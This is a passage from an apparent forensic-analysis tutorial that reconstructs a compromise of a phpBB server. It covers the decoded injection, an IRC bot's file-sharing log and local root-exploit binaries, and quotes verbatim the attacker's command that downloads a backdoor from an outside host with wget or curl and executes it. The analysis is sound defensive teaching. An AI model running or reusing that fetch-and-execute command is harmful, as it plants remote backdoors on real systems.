 
This example matches exploitation of an old security vulnerability in
phpBB. [](http://secunia.com/advisories/13239/)
[](http://www.phpbb.com/phpBB/viewtopic.php?t=240636)

Decoding this long URL leads to understanding that the attacker managed
to run some PHP code, namely: `system("cd /tmp; wget
      gabryk.altervista.org/bd || curl gabryk.altervista.org/bd -o bd;
      chmod +x bd; ./bd &")`. Indeed, a `bd` file was found in `/tmp/`.
Running `strings /mnt/tmp/bd` returns, among other strings,
`PsychoPhobia Backdoor is starting...`. This really looks like a
backdoor.

Some time later, this access was used to download, install and run an
IRC *bot* that connected to an underground IRC network. The bot could
then be controlled via this protocol and instructed to download files
for sharing. This program even has its own log file:

    ** 2004-11-29-19:50:15: NOTICE: :GAB!sex@Rizon-2EDFBC28.pool8250.interbusiness.it NOTICE ReV|DivXNeW|504 :DCC Chat (82.50.72.202)
    ** 2004-11-29-19:50:15: DCC CHAT attempt authorized from GAB!SEX@RIZON-2EDFBC28.POOL8250.INTERBUSINESS.IT
    ** 2004-11-29-19:50:15: DCC CHAT received from GAB, attempting connection to 82.50.72.202:1024
    ** 2004-11-29-19:50:15: DCC CHAT connection suceeded, authenticating
    ** 2004-11-29-19:50:20: DCC CHAT Correct password
    (...)
    ** 2004-11-29-19:50:49: DCC Send Accepted from ReV|DivXNeW|502: In.Ostaggio-iTa.Oper_-DvdScr.avi (713034KB)
    (...)
    ** 2004-11-29-20:10:11: DCC Send Accepted from GAB: La_tela_dell_assassino.avi (666615KB)
    (...)
    ** 2004-11-29-21:10:36: DCC Upload: Transfer Completed (666615 KB, 1 hr 24 sec, 183.9 KB/sec)
    (...)
    ** 2004-11-29-22:18:57: DCC Upload: Transfer Completed (713034 KB, 2 hr 28 min 7 sec, 80.2 KB/sec)

These traces show that two video files have been stored on the server by
way of the 82.50.72.202 IP address.

In parallel, the attacker also downloaded a pair of extra files,
`/tmp/pt` and `/tmp/loginx`. Running these files through `strings` leads
to strings such as *Shellcode placed at 0x%08lx* and *Now wait for suid
shell...*. These look like programs exploiting local vulnerabilities to
obtain administrative privileges. Did they reach their target? In this
case, probably not, since no files seem to have been modified after the
initial breach.

In this example, the whole intrusion has been reconstructed, and it can
be deduced that the attacker has been able to take advantage of the
compromised system for about three days; but the most important element
in the analysis is that the vulnerability has been identified, and the
administrator can be sure that the new installation really does fix the
vulnerability.
